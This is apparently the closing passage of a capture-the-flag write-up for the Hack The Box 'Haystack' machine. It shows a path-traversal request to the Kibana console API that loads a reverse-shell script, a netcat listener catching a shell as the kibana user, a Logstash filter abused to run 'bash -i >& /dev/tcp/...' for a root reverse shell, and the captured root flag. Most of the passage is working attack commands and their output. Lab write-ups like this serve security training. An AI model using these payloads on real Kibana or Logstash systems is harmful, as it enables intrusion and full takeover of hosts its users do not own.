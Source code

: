 ```
[security@haystack shm]$ curl -X GET "localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../dev/shm/rev.js" -H "kbnxsrf:true"
```

now i take a shell as `kibana user`

```
root@X-Billy:~# nc -lvp 8001
listening on [any] 8001 ...
10.10.10.115: inverse host lookup failed: Unknown host
connect to [10.10.16.161] from (UNKNOWN) [10.10.10.115] 36212
whoami
kibana
```

and now we will go to the configration file `/etc/logstash/conf.d`

```
cd /etc/logstash/conf.d
ls
filter.conf
input.conf
output.conf
```

lets check what is inside `filter.conf` 

```
cat filter.conf
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
```

nicee .. this filter allows us to excute commands with the proper  
now we will make our logstash file and put it into `/opt/kibana`  

`Ejecutar comando : bash -i >& /dev/tcp/10.10.16.161/6666 0>&1`  

after make this file lets listening to `port 6666`  

with command `root@X-Billy:~/Desktop# nc -lvp 6666`  

> finally Rooted

```
root@X-Billy:# cat /root/root.txt
cat /root/root.txt
3f5f727c38d9f70e1d2ad2ba11059d9`
```

---

I hope u enjoyed with this writeup. You can follow me on the twitter [@X-Billy](https://twitter.com/XBilly_official)
